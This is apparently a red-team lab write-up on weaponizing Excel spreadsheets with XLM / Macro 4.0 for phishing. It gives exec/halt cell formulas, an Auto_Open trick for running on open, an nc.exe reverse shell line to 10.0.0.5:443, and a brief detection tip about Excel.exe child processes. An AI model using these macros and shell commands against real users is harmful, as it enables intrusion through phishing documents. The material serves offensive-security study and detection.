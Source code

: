 # Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As always the contents of shel.cmd is a simple NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../.gitbook/assets/phishing-xlm-procexp.png)

{% embed data="{\"url\":\"https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/\",\"type\":\"link\",\"title\":\"Old school: evil Excel 4.0 macros \(XLM\) \| Outflank Blog\",\"description\":\"<p>In this post, I will dive into Excel 4.0 macros \(also called XLM macros – not XML\) for offensive purposes. If you grew up in the Windows 95 age or later, just as I did, you might have never heard of this technology that was introduced as early as 1992. Virtually all malicious macro documents…</p>\",\"icon\":{\"type\":\"icon\",\"url\":\"https://outflank.nl/favicon.png\",\"aspectRatio\":0}}" %}

